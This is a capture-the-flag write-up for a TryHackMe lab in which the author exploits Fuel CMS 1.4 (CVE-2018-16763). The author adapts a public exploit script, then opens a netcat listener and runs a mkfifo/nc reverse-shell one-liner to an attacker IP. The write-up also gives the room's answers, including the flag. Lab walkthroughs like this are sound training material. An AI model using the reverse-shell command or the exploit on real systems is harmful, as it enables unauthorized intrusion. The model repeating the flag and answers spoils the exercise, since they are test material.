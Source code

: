 ![Vulnerability Capstone Banner](https://assets.tryhackme.com/additional/vulnerability-module/bug-banner.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnerabilitycapstone/Vulnerability_Capstone_Cover.png" alt="Vulnerability Capstone Logo">
</p>

# Vulnerability Capstone

This guide contains the answer and steps necessary to get to them for the [Vulnerability Capstone](https://tryhackme.com/room/vulnerabilitycapstone) room.

###  Exploit the Machine (Flag Submission) 

1. What is the name of the application running on the vulnerable machine?

   The easiest first step to take is to navigate to the application through our browser.

   Here we get the name as well as the version of the application.

   ![Application](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnerabilitycapstone/Vulnerability_Capstone_Application.png)

   ><details><summary>Click for answer</summary>Fuel CMS</details>

2. What is the version number of this application?

   The answer we can find in the previous image.

   ><details><summary>Click for answer</summary>1.4</details>

3. What is the number of the CVE that allows an attacker to remotely execute code on this application?

   To find any exploit for this specific version of Fuel CMS we can look it up on exploit-db. Here we see a CVE that we could use.

   ![Exploit](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnerabilitycapstone/Vulnerability_Capstone_Exploit.png)

   ><details><summary>Click for answer</summary>CVE-2018-16763</details>

Use the resources & skills learnt throughout this module to find and use a relevant exploit to exploit this vulnerability.

Note: There are numerous exploits out there that can be used for this vulnerability (some more useful than others!)

4. What is the value of the flag located on this vulnerable machine? This is located in /home/ubuntu on the vulnerable machine.

   Since we are on Kali and have searchsploit installed, we can use the exploit file on our system located at `usr/share/exploitdb/exploits/linux/webapps/47138.py'.

   After some research it seems we need to modify the script since we are using Python 3. This will give us an error if we don't change anything.

   Instead of using `urllib.quote`, we must use `urllib.parse.quote`.

   I also changed the URL to reflect my attack machine and removed the proxy entry.

   ![Script](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnerabilitycapstone/Vulnerability_Capstone_Script.png)

   Now we can use this script to get our initial access to the vulnerable machine.

   ```cmd
   python3 47138.py
   ```

   To stabalize our shell we must first setup a Netcat listener with:

   ```cmd
   nc -nlvp 1337
   ```

   Then we execute the following command our our shell:

   ```cmd
   rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.78.136 1337 >/tmp/f
   ```

   ![Cmd](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnerabilitycapstone/Vulnerability_Capstone_Cmd.png)

   Now on our other terminal tab we can navigate the system to our flag.

   ![Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnerabilitycapstone/Vulnerability_Capstone_Flag.png)

   ><details><summary>Click for answer</summary>THM{ACKME_BLOG_HACKED}</details>
